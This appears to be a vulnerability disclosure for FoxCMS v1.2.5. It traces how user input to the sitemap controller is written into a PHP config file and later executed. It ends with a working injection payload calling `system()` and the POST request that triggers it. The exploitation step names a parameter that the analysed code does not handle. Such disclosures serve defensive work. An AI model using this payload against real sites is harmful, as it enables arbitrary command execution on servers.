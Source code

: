 
## Command Execution in `sitemap.php`

The latest version of FoxCMS, v1.2.5, has a code concatenation vulnerability in `app\admin\controller\Sitemap.php`, allowing attackers to execute arbitrary commands.

### Debugging and Analysis

The vulnerability exists in the `index()` method of the controller file `app\admin\controller\Sitemap.php`:
```php
class Sitemap extends AdminBase
{

    public function index(){

        $sitemap = xn_cfg("sitemap");
        if($this->request->isAjax()){
            $param = $this->request->param();
            if(key_exists("filter", $param)){
                $sitemap['filter'] = $param['filter'];
            }
            if(key_exists("sitemap_type", $param)){
                $sitemap['sitemap_type'] = $param['sitemap_type'];
            }
            if(key_exists("frequency", $param)){
                $sitemap['frequency'] = $param['frequency'];
            }
            if(key_exists("level", $param)){
                $sitemap['level'] = $param['level'];
            }
            set_php_arr(config_path('cfg'),  'sitemap.php', $sitemap);
            $this->success("Operation successful");
        }
    }
```

This function calls `set_php_arr`, which concatenates and writes the variable value into a PHP file:
```php
function set_php_arr($phpPath, $filename, $saveData)
{
    // Create directory
    if (!tp_mkdir($phpPath)) {
        return "Failed to create directory";
    }

    $phpfile = $phpPath . $filename;
    $str = "<?php\r\nreturn [\r\n";
    foreach ($saveData as $key => $val) {
        $str .= "\t'$key' => '$val',";
        $str .= "\r\n";
    }
    $str .= '];';
    file_put_contents($phpfile, $str);
}
```

The values in the `saveData` array are user-controlled, allowing for code injection by concatenating PHP code into the file:

```r
config\cfg\sitemap.php
```

Attackers can exploit this vulnerability to inject code and execute commands.

Next, the controller's `handUpdate` method is examined:
```php
public function handUpdate(){
    $type = $this->request->param("type", "");
    if(empty($type)){
        $this->error("Missing update parameter");
    }
    $sitemapTypes = ['xml','txt','html'];
    if(!in_array($type, $sitemapTypes)){
        $this->error("Invalid sitemap update parameter");
    }
    (new SitemapUtil())->generateSitemap($type, $this->domain, $this->getMyLang());
    $this->success("Update successful");
}
```

This method calls `generateSitemap`, which in turn calls `xn_cfg("sitemap")`:
```php
public function generateSitemap($type, $domain, $lang=""){

    $sitemap = xn_cfg("sitemap");
    ......
}
```

The `xn_cfg("sitemap")` function calls the `Config` class's `load` method to load the configuration file:
```php
function xn_cfg($name, $default = '', $path = 'cfg')
{
    if (false === strpos($name, '.')) {
        $name = strtolower($name);
        $config  = \think\facade\Config::load($path . '/' . $name, $name);
        return $config ?? [];
    }
    $name_arr    = explode('.', $name);
    $name_arr[0] = strtolower($name_arr[0]);
    $filename = $name_arr[0];
    $config  = \think\facade\Config::load($path . '/' . $filename, $filename);
    return $config[$name_arr[1]] ?? $default;
}
```

The `load` method then calls the `parse` method, which ultimately includes the file `\config\cfg\sitemap.php`, executing the injected code.

![](./public/4-1.png)


The `parse` method ends up including the file and executing the injected code.

![](./public/4-2.png)


### Exploiting the Vulnerability

To exploit this, go to the site settings page and click "Save," then capture the request.

![](./public/4-3.png)


Modify the `copyright_remove_mark` parameter to the following payload:
```r
0','test'=>system('calc'),'a'=>'a
```

![](./public/4-4.png)


Make a POST request to trigger the command execution via `handUpdate`:
```http
POST /index.php/admin1735/Sitemap/handUpdate

type=xml
```

The command is executed successfully, and the calculator app pops up.

![](./public/4-5.png)


